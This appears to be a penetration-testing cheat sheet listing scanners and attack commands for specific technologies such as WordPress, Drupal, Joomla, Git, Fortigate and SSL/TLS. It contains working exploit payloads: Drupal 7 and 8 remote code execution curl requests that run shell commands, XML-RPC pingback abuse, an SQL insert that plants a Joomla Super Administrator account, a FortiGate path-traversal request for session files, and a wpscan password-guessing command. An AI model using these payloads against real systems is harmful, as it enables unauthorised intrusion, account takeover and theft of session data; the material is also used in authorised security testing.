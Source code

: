 # Techno Specific

## **CMS**

### Tools

```sh
# cmsmap
git clone https://github.com/Dionach/CMSmap && cd CMSmap && pip3 install .
cmsmap.py <target> -o cmsmap.log

# wig
git clone https://github.com/jekyc/wig.git && cd wig && python3 setup.py install
Wig.py <target> -w wig.log 

# wpscan (need API key)
WPScan -v --proxy socks5://127.0.0.1:9090 -e u1-100,vp,vt --passwords rockyou.txt --api-token <API_key> --url <target>

# wpseku
git clone https://github.com/m4ll0k/WPSeku.git && cd WPSeku && pip install -r requirements.txt
python wpseku.py --target <target>

# droopescan
pip install droopescan
droopescan scan drupal -t 32 -u <target> [-U list_of_urls.txt]

# joomscan
joomscan -u <target>
```

---

### Wordpress

Find version

* into xml via website.com/rss
* Html source code
* CMSmap or WPScan

**XMLrpc**

List methods

```sh
POST /xmlrpc.php HTTP/1.1
Host: <target>
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 95

<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>
```

If there is pingback, try :

```bash
<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<ip_pingback>:<port></string></value>
</param><param><value><string>http://<ip_pingback>:<port>/toto</string>
</value></param></params>
</methodCall>
```

---

### Drupal

- intruder from 0 to 500 on /node/$

```bash
/imce
```

POC1 drupal 8

```bash
  curl -k -i '<target>/user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax' \
    --data 'form_id=user_register_form&_drupal_ajax=1&mail[a][#post_render][]=exec&mail[a][#type]=markup&mail[a][#markup]=uname -a'
```

POC2 drupal 8

```bash
curl -k -i '<target>/user/register?element_parents=timezone/timezone/%23value&ajax_form=1&_wrapper_format=drupal_ajax' \
    --data 'form_id=user_register_form&_drupal_ajax=1&timezone[a][#lazy_builder][]=exec&timezone[a][#lazy_builder][][]=touch+/tmp/2'
```

POC3 drupal 7

```bash
 curl -k -s '<target>/drupal-7.55/?q=user/password&name\[%23post_render\]\[\]=passthru&name\[%23type\]=markup&name\[%23markup\]=uname+-a' \
    --data "form_id=user_pass&_triggering_element_name=name" | grep form_build_id
```

---

### Joomla

Joomla 1.5

```bash
user:md5_gen(1)MD5$SALT
```

*  [https://www.exploit-db.com/exploits/6234](https://www.exploit-db.com/exploits/6234)
* [http://www.passwordtool.hu/joomla-password-hash-generator-salt-key](http://www.passwordtool.hu/joomla-password-hash-generator-salt-key)

```bash
creer new users INSERT INTO jos_users (name, username, password, usertype, gid, params) VALUES ('toto', 'toto', 'fcba92f4dd6b902f8a66054b8327ae6b:F2sVBzlFOUl51D3HtRZ0tionaJQGQqB', 'Super Administrator', 25, ''); INSERT INTO jos_core_acl_aro VALUES (NULL, 'users', LAST_INSERT_ID(), 0, 'toto', 0); INSERT INTO jos_core_acl_groups_aro_map VALUES (25, '', LAST_INSERT_ID());
```

---

## Moodle

>https://github.com/inc0d3/moodlescan

`python moodlescan.py -u  <URL> -k`


---

## **Reactjs**

- [React Developer Tools](https://addons.mozilla.org/fr/firefox/addon/react-devtools/) (edit props/state/hooks values)

**Security Testers**: Inject JavaScript and JSON wherever you can and see what happens. 

**Developers**: Don’t ever `useeval()` or `dangerouslySetInnerHTML`. Avoid parsing user-supplied JSON.

---


## **Angularjs**

Check the bypassSecurityTrustX / innerHTML function

```bash
bypassSecurityTrustHtml
bypassSecurityTrustScript
bypassSecurityTrustStyle
bypassSecurityTrustUrl
bypassSecurityTrustResourceUrl
```

---

## **ckfinder**

```bash
ckfinder/ckfinder.html
```

---

## **Git**

- [GitTools Dumper](https://github.com/internetwache/GitTools/tree/master/Dumper)
- [git-dumper](https://github.com/arthaud/git-dumper)

```bash
run script post-merge https://docs.gitlab.com/ee/administration/custom_hooks.html  .git/hooks
```

---

## **Stormshield**

- [test for default password](https://github.com/jenaye/netasq-1300)

[Stormshield Documentation](https://documentation.stormshield.eu/SNS/v3/fr/Content/CLI_Serverd_Commands_reference_Guide_v3/Introduction.htm)
```bash
# Check default password : \(UpdatePasswd=1 if factory password, 0 if the password already have been changed\) 
CHPWD 101 code=00a01000 msg="Begin" format="section" \[Result\] UpdatePasswd=0
```

---

## **Fortigate**

- [CVE-2018-13379](https://www.exploit-db.com/exploits/47288)

```sh
/remote/fgt_lang?lang=/../../../..//////////dev/cmdb/sslvpn_websession
```

---

## **Dana**

```bash
https://XXXX/dana-na/setup/psalinstall.cgi
```

## **SSL / TLS**

* [testssh.sh](https://github.com/drwetter/testssl.sh)

Openssl

```bash
openssl s_client -cipher BEAST -connect <target>:443
openssl s_client -connect <target>:443 -ssl3

# Expiration date
openssl s_client -connect <target>:443 | openssl x509 -noout -dates
```

Check Heartbleed

```bash
cat list.txt | while read line ; do echo "QUIT" | openssl s_client -connect $line:443 2>&1 | grep 'server extension "heartbeat" (id=15)' || echo $line: safe; done
```

Check lucky13

```bash
openssl s_client -cipher DES-CBC3-SHA -connect xx.fr:443
```

---

## **Android**

Apktool

```bash
apktool d app_name.apk
```

Extract sensitive info

```bash
grep -EHirn "accesskey|admin|aes|api_key|apikey|checkClientTrusted|crypt|http:|https:|password|pinning|secret|SHA256|SharedPreferences|superuser|token|X509TrustManager|insert into" APKfolder/
```


## **Manual upload**

```bash
curl -i -X PUT -H "Content-Type: application/xml; charset=utf-8" -d @"/tmp/some-file.xml" http://<target>/newpage
```

